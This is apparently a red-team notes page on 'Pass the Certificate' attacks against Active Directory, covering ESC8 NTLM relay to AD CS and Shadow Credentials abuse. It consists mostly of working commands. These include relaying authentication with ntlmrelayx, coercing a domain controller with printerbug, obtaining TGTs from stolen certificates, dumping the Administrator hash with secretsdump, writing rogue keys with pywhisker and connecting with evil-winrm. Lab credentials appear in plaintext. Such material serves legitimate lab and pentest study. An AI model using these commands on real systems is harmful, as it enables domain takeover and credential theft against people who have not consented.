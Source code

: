 ```yaml
---
title: Pass the Certificate
category: Post-Exploitation
tags: [ptc, ptt credential, hunting, tgt, ticket, kerberos]
tools: ['ntlmrelayx', 'gettgtpkinit', 'evil-winrm', 'pywhisker']
---
```


# Pass the Certificate

Used in conjunction with:

- [Attacks against Active Directory Certificate Services (AD CS)](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Shadow Credential](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c)

## [AD CS](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831740(v=ws.11)) NTLM Relay Attack (ESC8)

ESC8 is an NTLM relay attack targeting an ADCS HTTP endpoint.

Use Impacket’s [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to listen for inbound connections and relay them to the web enrollment service.

```bash
impacket-ntlmrelayx -t http://10.129.234.110/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
```

> --template `KerberosAuthentication` can vary, use tools like [certipy](https://github.com/ly4k/Certipy) to enumerate.

Wait for a user to authenticate or force authentication with [printer bug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py).

```bash
# Forces 10.129.234.109 (DC01) to attempt authentication
# against 10.10.16.12 (attacker host)

python3 printerbug.py EXAMPLE.LOCAL/wwhite:"package5shores_topher1"@10.129.234.109 10.10.16.12

# Watch for output on ntlmrelayx
```

Perform a `Pass-the-Certificate` attack to obtain a TGT as `DC01$`. One way to do this is by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py).

```bash
# Install
git clone https://github.com/dirkjanm/PKINITtools.git && cd PKINITtools
pip3 install -r requirements.txt

# If error
pip3 install -I git+https://github.com/wbond/oscrypto.git
# Kali fix error
wget http://launchpadlibrarian.net/732112002/python3-cryptography_41.0.7-4ubuntu0.1_amd64.deb
sudo dpkg -i python3-cryptography_41.0.7-4ubuntu0.1_amd64.deb 
wget http://launchpadlibrarian.net/715850281/python3-openssl_24.0.0-1_all.deb
sudo dpkg -i python3-openssl_24.0.0-1_all.deb

# Grab the ccache
python3 gettgtpkinit.py -cert-pfx ../krbrelayx/DC01\$.pfx -dc-ip 10.129.234.109 'example.local/dc01$' /tmp/dc.ccache

# Retrieve the hash and have at it
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip 10.129.234.109 -just-dc-user Administrator 'EXAMPLE.LOCAL/DC01$'@DC01.EXAMPLE.LOCAL
```

---

## Shadow Credentials (msDS-KeyCredentialLink)

[Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) refers to an Active Directory attack that abuses the [msDS-KeyCredentialLink](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) attribute of a victim user.

Use [pywhisker](https://github.com/ShutdownRepo/pywhisker) to perform this attack from a Linux system.

```bash
# Generate X.509 certificate write public key to msDS-KeyCredentialLink
pywhisker --dc-ip 10.129.234.109 -d EXAMPLE.LOCAL -u wwhite -p 'package5shores_topher1' --target jpinkman --action add

# Use the generated file eFUVVTPf.pfx and password to get TGT as victim
python3 gettgtpkinit.py -cert-pfx ../eFUVVTPf.pfx -pfx-pass 'bmRH4LK7UwPrAOfvIx6W' -dc-ip 10.129.234.109 EXAMPLE.LOCAL/jpinkman /tmp/jpinkman.ccache

# pass the ticket
export KRB5CCNAME=/tmp/jpinkman.ccache
klist

# Connect with evil-winrm - check if krb5.conf is properly configured
evil-winrm -i dc01.example.local -r example.local
```

> The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/) was created for such situations. It can be used to authenticate against LDAPS using a certificate and perform various attacks (e.g., changing  passwords or granting DCSync rights). This attack is outside the scope  of this module but is worth reading about [here](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

